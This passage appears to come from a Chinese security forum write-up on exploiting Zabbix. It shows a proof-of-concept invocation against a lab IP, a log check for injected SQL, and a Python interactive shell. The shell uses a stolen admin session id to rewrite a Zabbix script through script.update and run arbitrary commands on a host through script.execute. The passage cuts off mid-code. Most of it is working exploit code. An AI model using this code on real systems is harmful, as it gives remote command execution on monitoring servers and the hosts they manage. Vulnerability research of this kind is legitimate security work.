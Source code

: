 这样就可以正确获取啦：

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-42c3a86d02830a42f478b19a30b3942322ede40f.png)

有了这个就可以实现`RCE`了，请看后文。

然后是`poc2`：

```shell
python main.py --ip 192.168.198.136 --sid 4d2b6a02bfe2bc7d6fde50e8fe646621 --hostid 10084 LOG_LEVEL=error --poc2
```

然后查看日志：

```shell
cat /var/log/zabbix/zabbix_server.log | grep "version()"
```

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-8d30a1c065ed84f5a505ea8f9dca05b3c3af1b2d.png)

2.2 利用获取到的管理员session id实现RCE
----------------------------

```python
import requests
import json

ZABIX_ROOT = "http://192.168.198.136"
url = ZABIX_ROOT + "/api_jsonrpc.php"
host_id = "10084"
session_id = "00000000000000000000000000000000"
headers = {
    "content-type": "application/json",
}
auth = json.loads('{"jsonrpc": "2.0", "result": "' + session_id + '", "id": 0}')

while True:
    cmd = input('\033[41m[zabbix_cmd]>>: \033[0m ')
    if cmd == "":
        print("Result of last command:")
    elif cmd == "quit":
        break
    payload = {
        "jsonrpc": "2.0",
        "method": "script.update",
        "params": {
            "scriptid": "1",
            "command": "" + cmd + ""
        },
        "auth": auth['result'],
        "id": 0,
    }
    cmd_upd = requests.post(url, data=json.dumps(payload), headers=headers)
    payload = {
        "jsonrpc": "2.0",
        "method": "script.execute",
        "params": {
            "scriptid": "1",
            "hostid": "" + host_id + ""
        },
        "auth": auth['result'],
        "id": 0,
    }
    cmd_exe = requests.post(url, data=json.dumps(payload), headers=headers)
    cmd_exe_json = cmd_exe.json()
    if "error" not in cmd_exe.text:
```